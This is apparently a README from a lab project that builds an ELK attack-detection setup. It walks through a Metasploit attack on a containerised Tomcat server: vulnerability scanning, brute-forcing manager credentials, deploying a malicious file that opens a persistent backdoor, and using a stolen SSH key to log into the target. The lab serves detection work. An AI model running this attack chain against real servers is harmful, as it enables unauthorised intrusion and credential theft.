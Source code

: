 # Execute Metasploit Attack to Tomcat Server

- Enter inside Metasploit container: 
`docker exec -it metasploit bash`

- Run pre-exploit script to scan target system and identify vulnerabilities:\
`./scripts/check-pre-exploit.sh vulnerable-mts 8080`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-preexploit.png>)

- Run first exploit to get tomcat manager dashboard credentials:\
`./msfconsole -r ./scripts/tomcat_mgr_login.rc 8080 vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_login.png>)

- Run the second exploit to deploy a malicious file in the tomcat server which opens a persistent backdoor on the target system:\
`./msfconsole -r ./scripts/tomcat_deploy_attack.rc 8080 vulnerable-mts tomcat tomcat`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan, "tomcat" and "tomcat" are username and password credentials you get ith the previous step)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_deploy.png>)

- Save the ssh-key given in ouput (i.e: "/root/.msf4/loot/20230318162758_default_172.30.0.6_id_rsa_776480.txt")

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-ssh.png>)

- Run the script to enter target system (ubuntu container):\ 
`./scripts/ssh-connection.sh <key> vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, <key> args is the ssh key you get with the previous step)_